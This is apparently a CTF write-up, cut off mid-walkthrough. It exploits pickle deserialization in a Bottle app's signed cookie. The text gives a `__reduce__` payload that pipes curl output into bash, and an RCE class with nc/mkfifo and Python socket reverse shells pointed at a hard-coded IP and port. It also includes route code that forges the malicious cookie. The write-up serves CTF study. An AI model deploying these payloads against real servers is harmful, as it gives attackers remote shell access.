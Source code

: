 So by implement reduce method that `return (eval, ('__import__("os").popen("curl xxx|bash")',))` , we can execute code on the server.

## The exercise step
### Generate cookie 
Add an class definition with `__reduce__` method (that return reverse shell python code) to create an instance, then pass the instance to the session1[’name’] that passed into set_cookie.

```python
class RCE:
    def __reduce__(self):
        # 14.186.174.164
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 14.186.174.164 55555 > /tmp/f')
        return os.system, ((f"""python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("14.186.174.164",55555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""),)

# Test
@route("/sign")
def index():
    session = request.get_cookie("name", secret=sekai)
    print(session["name"])
    if not session or session["name"] == "guest":
        objWithReduce = RCE()
        session = {"name": "guest"}
        session1 = {"name": objWithReduce}
        response.set_cookie("name", session1, secret=sekai)
        return template("guest", name=session["name"])
    if session["name"] == "admin":
        return template("admin", name=session["name"])
```

Running server and go to /sign with the Guest cookie to get the new Cookie with RCE instance dumps

![](get-malicious-cookie.png)



In Attackbox, open netcat listener at port 55555: